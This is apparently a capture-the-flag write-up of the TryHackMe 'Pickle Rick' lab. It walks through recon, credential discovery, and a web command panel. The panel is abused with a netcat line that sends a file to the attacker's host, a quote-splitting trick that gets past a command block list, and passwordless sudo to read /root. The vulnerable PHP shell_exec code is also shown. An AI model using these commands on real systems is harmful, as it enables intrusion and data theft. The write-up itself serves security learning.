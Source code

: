 # Pickle Rick
In the instruction of this lab it says that we simply can go to `https://<LAB IP>.p.thmlabs.com/`. No need to NMAP here.


We see a nice page and it seems Rick forgot his password (and turned himself into a pickle again. We have to look for some ingredients which we have to fill in in the answer fields (3x). But first let's look for the password.

# HTML Source Code
Since we only have this page we can check the headers and url of the page to look for information. One simple thing to do is to check the HTML source.
Here we find an HTML note:

```html
...
</div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

Here is the username we have to remember.

### robots.txt
Maybe here's something:
```html
Wubbalubbadubdub
```
Hmmm...not sure what this is. Maybe a password. Let's take note of it

# NMAP
After looking for information in with the tools in the browser I decided I might use NMAP and some other tools. So first start scanning all ports and
save the results (for our pentest report)
```sh
┌──(kali㉿kali)-[~/…/THM/Pickle Rick/recon/nmap]
└─$ nmap 10.10.141.252 -p- -oA allports
```
## NMAP Results
```sh
Nmap scan report for 10.10.141.252
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports. Since this is a small CTF challenge I leave the scanning here..maybe I have to come back later on.

## Directory and page scanning with ffuf
So check for directories and pages.
--of = Format of the output, I like HTML so I can have a nice overview
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.141.252/FUZZ -of html -o dirs80.html     -e .txt,.php,.html -v
```

I the results it gives me the `/portal.php` which redirects to `/login.php`. 

Since we only have a username we have to look for the password. But first try username = password. You never know....
Okay now we know that that wasn't the case.

### clue.txt
Since ffuf was still running I noticed a `/clue.txt` file. Let's check it out:
```html
Look around the file system for the other ingredient.
```
This is the only thing found. Since we do not have access to a file system we have to park this clue.

## Login
Wait... maybe we can try the gibberish of the robotx.txt



Bingo!! We can login with the username R1ckRul3s and the password Wubbalubbadubdub from the robots.txt file

## Comman executution
When logged in we finde the command panel. We need to unpickle Rick ASAP. We're looking for ingredients.
```
ls
```
Result
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Here we have te first ingredient:
`Sup3rS3cretPickl3Ingred.txt`

```
cat Sup3rS3cretPickl3Ingred.txt
```

Oops the command is disabled.

# First ingredient
Since we can read robots.txt in the browser we have a good change that we can do the same with Sup3rS3cretPickl3Ingred.txt. 
Go to `https://<LAB IP>.p.thmlabs.com/Sup3rS3cretPickl3Ingred.txt` to read the file.

After looking around in the file system de file for the second ingredient is found at location `/home/rick/second ingredients`

# Second ingredient
How can we read this since it is outside of the webroot. I decided to start a listener on my local kali vm and transfer the file via nc:
### On local kali vm:
```sh
nc -lvnp 4444 > secondingredient
```
In the command panel in the browser:
```
nc <KALI IP> 4444 < /home/rick/second\ ingredients
```
Now we can read the file on the kali machine.

## Bypassing command filter
It doesn't seem that that the cat command is disabled on the machine but is blocked by teh webapp. We can still execute the `cat` command by adding single quotes between the characters `'`:
```
c'a't /home/rick/second\ ingredients
```

# Third ingredient
After searching the file system I could not find anything useful. But `sudo -l` worked. 
```
User www-data may run the following commands on ip-10-10-193-131.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can execute all command as a superuser whithout a need for a password
```
sudo ls -al /root

```
```
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 May 21 06:49 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

We can do the same trick with transfering the data via nc.
Here we have the last ingredient

# Analysis
In the source code we could see why we could not use the cat command.
The code gives us an array which contains the forbidden commands `"cat", "head", "more", "tail", "nano", "vim", "vi"`. Then it [checks](https://www.php.net/manual/en/function.isset.php) is the `command` variable is not null in the (POST data)[https://www.php.net/manual/en/reserved.variables.post].

If the value of the command parameter contains a value in the cmds array it will echo the warning `Command Disabled...` 

If it it does not contain a forbidden command it will execute the given command in a shell on the server and returns the results.
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
```
